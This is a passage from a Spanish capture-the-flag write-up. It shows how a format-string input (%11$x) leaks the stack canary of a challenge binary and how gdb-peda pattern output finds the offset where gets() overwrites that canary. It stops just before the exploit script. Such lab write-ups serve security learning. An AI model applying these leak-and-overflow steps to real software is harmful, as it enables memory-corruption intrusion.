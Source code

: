 Entonces comprobamos en qué posición de ESP se encuentra el CANARY. Se encuentra a 11 DWORDS de distancia.

```assembly
gdb-peda$ x/x $ebp-0xc  
0xffffcdbc:     0xe4a1a300  <--- los CANARY siempre terminan en 00
gdb-peda$ x/20x $esp  
0xffffcd90:     0xffffcda8      0x0804a065      0xf7e21620      0x0804924f  
0xffffcda0:     0xf7fbf4a0      0xf7fd7a6c      0x74736574      0xf7fb000a  
0xffffcdb0:     0xffffcdf0      0xf7fbf66c      0xf7fbfb30      0xe4a1a300 <--- aquí 
0xffffcdc0:     0x00000001      0xf7e20ff4      0xffffcdd8      0x08049308  
0xffffcdd0:     0xffffd09b      0x00000070      0xf7ffd020      0xf7c213b5
```

Por ello, si en la primera entrada del binario colocamos **%11$x**, imprimiremos el CANARY.

```
└─$ ./cookieness  
Login: %11$x  
Bienvenido, 1e66b800  
  
Puedes leer flag.txt?
```

Ahora podemos intentar sobrescribirlo en la segunda entrada, y crashear el proceso con valores arbitrarios. Tenemos que saber a qué distancia se encuentra el CANARY de lo que sobrescribimos una vez se llama la función *gets*. Para ello, usaremos `pattern` de *gdb-peda* y veremos con qué offset sobrescribimos el CANARY.

```assembly
gdb-peda$ b * 0x080492e0  <--- en esta dirección se comprueba el CANARY
Breakpoint 1 at 0x80492e0

gdb-peda$ pattern create 50  
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'

gdb-peda$ run  
Starting program: /home/merk/****/cookieness      
Login: test  
Bienvenido, test  
  
Puedes leer flag.txt?  
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

[----------------------------------registers-----------------------------------]  
EAX: 0x41412d41 ('A-AA') <--- EAX contenía el CANARY, que hemos sobrescrito
...

gdb-peda$ pattern offset 0x41412d41  
1094790465 found at offset: 20
```

Ya sabemos que el CANARY se debe sobrescribir en el offset 20. Montando el siguiente script, veremos que hemos sobrescrito el CANARY y que podemos redirigir el programa.
